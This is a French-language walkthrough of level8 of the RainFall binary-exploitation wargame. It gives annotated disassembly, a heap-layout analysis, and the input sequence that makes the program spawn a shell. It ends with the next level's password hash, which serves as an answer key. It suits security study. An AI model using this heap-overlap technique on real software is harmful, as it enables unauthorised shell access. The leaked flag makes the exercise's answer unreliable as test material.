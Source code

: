 ```
08048564 <main>:
 8048564:	55                   	push   ebp
 8048565:	89 e5                	mov    ebp,esp
 8048567:	57                   	push   edi
 8048568:	56                   	push   esi
 8048569:	83 e4 f0             	and    esp,0xfffffff0
 804856c:	81 ec a0 00 00 00    	sub    esp,0xa0						; 160
 8048572:	eb 01                	jmp    8048575 <main+0x11>			; 8048575
 8048574:	90                   	nop
 8048575:	8b 0d b0 9a 04 08    	mov    ecx,DWORD PTR ds:0x8049ab0
 804857b:	8b 15 ac 9a 04 08    	mov    edx,DWORD PTR ds:0x8049aac
 8048581:	b8 10 88 04 08       	mov    eax,0x8048810				; "%p, %p \n"
 8048586:	89 4c 24 08          	mov    DWORD PTR [esp+0x8],ecx
 804858a:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 804858e:	89 04 24             	mov    DWORD PTR [esp],eax
 8048591:	e8 7a fe ff ff       	call   8048410 <printf@plt>			; printf("%p, %p \n", *0x8049aac, *0x8049ab0);
 8048596:	a1 80 9a 04 08       	mov    eax,ds:0x8049a80				; STDIN
 804859b:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 804859f:	c7 44 24 04 80 00 00 	mov    DWORD PTR [esp+0x4],0x80		; 128
 80485a6:	00 
 80485a7:	8d 44 24 20          	lea    eax,[esp+0x20]				; char *str_input;
 80485ab:	89 04 24             	mov    DWORD PTR [esp],eax
 80485ae:	e8 8d fe ff ff       	call   8048440 <fgets@plt>			; fgets(str_input, 128, STDIN);
 80485b3:	85 c0                	test   eax,eax						; if (fgets(...) == NULL)
 80485b5:	0f 84 71 01 00 00    	je     804872c <main+0x1c8>			; 804872c (on return)
 80485bb:	8d 44 24 20          	lea    eax,[esp+0x20]
 80485bf:	89 c2                	mov    edx,eax
 80485c1:	b8 19 88 04 08       	mov    eax,0x8048819				; "auth "
 80485c6:	b9 05 00 00 00       	mov    ecx,0x5
 80485cb:	89 d6                	mov    esi,edx
 80485cd:	89 c7                	mov    edi,eax
 80485cf:	f3 a6                	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]	; strncmp(str_input, "auth ", 5);
 80485d1:	0f 97 c2             	seta   dl									 	; if str_input > "auth " set dl = 1
 80485d4:	0f 92 c0             	setb   al									 	; if str_input < "auth " set al = 1
 80485d7:	89 d1                	mov    ecx,edx
 80485d9:	28 c1                	sub    cl,al									; Un octet de ecx (5 -  lower?)
 80485db:	89 c8                	mov    eax,ecx									; eax = ecx
 80485dd:	0f be c0             	movsx  eax,al
 80485e0:	85 c0                	test   eax,eax									; is al = 0 ?
 80485e2:	75 5e                	jne    8048642 <main+0xde>						; if al != 0
 80485e4:	c7 04 24 04 00 00 00 	mov    DWORD PTR [esp],0x4
 80485eb:	e8 80 fe ff ff       	call   8048470 <malloc@plt>						; int *ptr = malloc(4)
 80485f0:	a3 ac 9a 04 08       	mov    ds:0x8049aac,eax
 80485f5:	a1 ac 9a 04 08       	mov    eax,ds:0x8049aac
 80485fa:	c7 00 00 00 00 00    	mov    DWORD PTR [eax],0x0						; *ptr = 0;
 8048600:	8d 44 24 20          	lea    eax,[esp+0x20]							; str_input
 8048604:	83 c0 05             	add    eax,0x5									; str_input + 5
 8048607:	c7 44 24 1c ff ff ff 	mov    DWORD PTR [esp+0x1c],0xffffffff			; -1
 804860e:	ff 
 804860f:	89 c2                	mov    edx,eax
 8048611:	b8 00 00 00 00       	mov    eax,0x0
 8048616:	8b 4c 24 1c          	mov    ecx,DWORD PTR [esp+0x1c]					; ecx = -1
 804861a:	89 d7                	mov    edi,edx
 804861c:	f2 ae                	repnz scas al,BYTE PTR es:[edi] ; al:0, es:[str_input + 5]
 804861e:	89 c8                	mov    eax,ecx
 8048620:	f7 d0                	not    eax						; eax = strlen(str_input)
 8048622:	83 e8 01             	sub    eax,0x1					; eax -= 1
 8048625:	83 f8 1e             	cmp    eax,0x1e					; 30
 8048628:	77 18                	ja     8048642 <main+0xde>		; jump is eax is above 30 (unsigned)
 804862a:	8d 44 24 20          	lea    eax,[esp+0x20]
 804862e:	8d 50 05             	lea    edx,[eax+0x5]
 8048631:	a1 ac 9a 04 08       	mov    eax,ds:0x8049aac
 8048636:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 804863a:	89 04 24             	mov    DWORD PTR [esp],eax
 804863d:	e8 1e fe ff ff       	call   8048460 <strcpy@plt>		; strcpy(0x8049aac, str_input + 5)
 8048642:	8d 44 24 20          	lea    eax,[esp+0x20]
 8048646:	89 c2                	mov    edx,eax
 8048648:	b8 1f 88 04 08       	mov    eax,0x804881f								; "reset"
 804864d:	b9 05 00 00 00       	mov    ecx,0x5
 8048652:	89 d6                	mov    esi,edx
 8048654:	89 c7                	mov    edi,eax
 8048656:	f3 a6                	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]	; strncmp(str_input, "reset", 5)
 8048658:	0f 97 c2             	seta   dl
 804865b:	0f 92 c0             	setb   al
 804865e:	89 d1                	mov    ecx,edx
 8048660:	28 c1                	sub    cl,al
 8048662:	89 c8                	mov    eax,ecx
 8048664:	0f be c0             	movsx  eax,al
 8048667:	85 c0                	test   eax,eax
 8048669:	75 0d                	jne    8048678 <main+0x114>
 804866b:	a1 ac 9a 04 08       	mov    eax,ds:0x8049aac
 8048670:	89 04 24             	mov    DWORD PTR [esp],eax
 8048673:	e8 a8 fd ff ff       	call   8048420 <free@plt>		; free(0x8049aac)
 8048678:	8d 44 24 20          	lea    eax,[esp+0x20]
 804867c:	89 c2                	mov    edx,eax
 804867e:	b8 25 88 04 08       	mov    eax,0x8048825
 8048683:	b9 06 00 00 00       	mov    ecx,0x6
 8048688:	89 d6                	mov    esi,edx
 804868a:	89 c7                	mov    edi,eax
 804868c:	f3 a6                	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]	; strncmp(str_input, "service", 6)
 804868e:	0f 97 c2             	seta   dl
 8048691:	0f 92 c0             	setb   al
 8048694:	89 d1                	mov    ecx,edx
 8048696:	28 c1                	sub    cl,al
 8048698:	89 c8                	mov    eax,ecx
 804869a:	0f be c0             	movsx  eax,al
 804869d:	85 c0                	test   eax,eax
 804869f:	75 14                	jne    80486b5 <main+0x151>
 80486a1:	8d 44 24 20          	lea    eax,[esp+0x20]
 80486a5:	83 c0 07             	add    eax,0x7
 80486a8:	89 04 24             	mov    DWORD PTR [esp],eax
 80486ab:	e8 80 fd ff ff       	call   8048430 <strdup@plt>
 80486b0:	a3 b0 9a 04 08       	mov    ds:0x8049ab0,eax		; *0x8049ab0 = strdup(str_input + 7);
 80486b5:	8d 44 24 20          	lea    eax,[esp+0x20]
 80486b9:	89 c2                	mov    edx,eax
 80486bb:	b8 2d 88 04 08       	mov    eax,0x804882d
 80486c0:	b9 05 00 00 00       	mov    ecx,0x5
 80486c5:	89 d6                	mov    esi,edx
 80486c7:	89 c7                	mov    edi,eax
 80486c9:	f3 a6                	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]	; strncmp(str_input, "login", 5)
 80486cb:	0f 97 c2             	seta   dl
 80486ce:	0f 92 c0             	setb   al
 80486d1:	89 d1                	mov    ecx,edx
 80486d3:	28 c1                	sub    cl,al
 80486d5:	89 c8                	mov    eax,ecx
 80486d7:	0f be c0             	movsx  eax,al
 80486da:	85 c0                	test   eax,eax
 80486dc:	0f 85 92 fe ff ff    	jne    8048574 <main+0x10>
 80486e2:	a1 ac 9a 04 08       	mov    eax,ds:0x8049aac
 80486e7:	8b 40 20             	mov    eax,DWORD PTR [eax+0x20]
 80486ea:	85 c0                	test   eax,eax							; if (*0x8049aac + 32 == 0)
 80486ec:	74 11                	je     80486ff <main+0x19b>
 80486ee:	c7 04 24 33 88 04 08 	mov    DWORD PTR [esp],0x8048833		; "/bin/sh"
 80486f5:	e8 86 fd ff ff       	call   8048480 <system@plt>				; system("/bin/sh")
 80486fa:	e9 75 fe ff ff       	jmp    8048574 <main+0x10>
 80486ff:	a1 a0 9a 04 08       	mov    eax,ds:0x8049aa0					; stdout
 8048704:	89 c2                	mov    edx,eax
 8048706:	b8 3b 88 04 08       	mov    eax,0x804883b					; "Password:\n"
 804870b:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804870f:	c7 44 24 08 0a 00 00 	mov    DWORD PTR [esp+0x8],0xa			; 10
 8048716:	00 
 8048717:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 804871e:	00 
 804871f:	89 04 24             	mov    DWORD PTR [esp],eax
 8048722:	e8 29 fd ff ff       	call   8048450 <fwrite@plt>				; fwrite("Password:\n", 1, 10, stdout);
 8048727:	e9 48 fe ff ff       	jmp    8048574 <main+0x10>
 804872c:	90                   	nop
 804872d:	b8 00 00 00 00       	mov    eax,0x0
 8048732:	8d 65 f8             	lea    esp,[ebp-0x8]
 8048735:	5e                   	pop    esi
 8048736:	5f                   	pop    edi
 8048737:	5d                   	pop    ebp
 8048738:	c3                   	ret    
```

Vous voyez lorsqu'un code en `c` est trop long ? Bah là, 143 lignes ça va faire crier la norminette. Bon, à première vu, pas de fonctions annexes.

Notre objectif : `call system` :)

Bon, déjà new instruction has appear :
`repz` = REPeat while Zero
Ce sont des préfixes ajoutables à des instructions sur des chaines de caractères.

`cmps` = CoMPare strings?
En tout cas, d'après des postes sur Stackoverflow, c'est le cas.

La combinaison des deux forme une boucle :
```
while (*esi == *edi && ecx)
{
	esi++;
	s2++;
	ecx--;
}
```
ça ne vous rappel rien ? Roh vraiment rien ? libft ? strncmp ? 


repnz maintenant :
repeat while zero flag is not set and cx is not zero

https://stackoverflow.com/questions/26783797/repnz-scas-assembly-instruction-specifics

C'est un strlen

Pour reverse correctement ce binaire d'une longueur extrême, je vais devoir refaire son programme en C car je ne m'en sors pas !

Bon, d'après mon analyse, même si des zones d'ombres restent présentes, notemment au niveau des instruction `strlen` et `strcpy`
que je n'ai pas compris, et dont le reverse n'apparaitra par conséquent pas dans le code reconstitué, notre but est d'overflow la
variable que j'ai nommée `ptr_1` pour y insérer des vraies caractères au bon endroit (à 32 chars).

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018
```
Lors d'un test effectué, lorsque l'on tape `auth `, notre première allocation est faite à `0x804a008`, et la seconde à `0x804a018`,
soit 16 caractères plus loin. Par conséquent, les 32 chars de `ptr_1` sont en réalité 4 chars de `ptr_2`.

Donc, il faut taper :
`auth `
`serviceeeeeeeeeeeeeeeee`
`login`

Et normalement c'est bon !

Password: `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`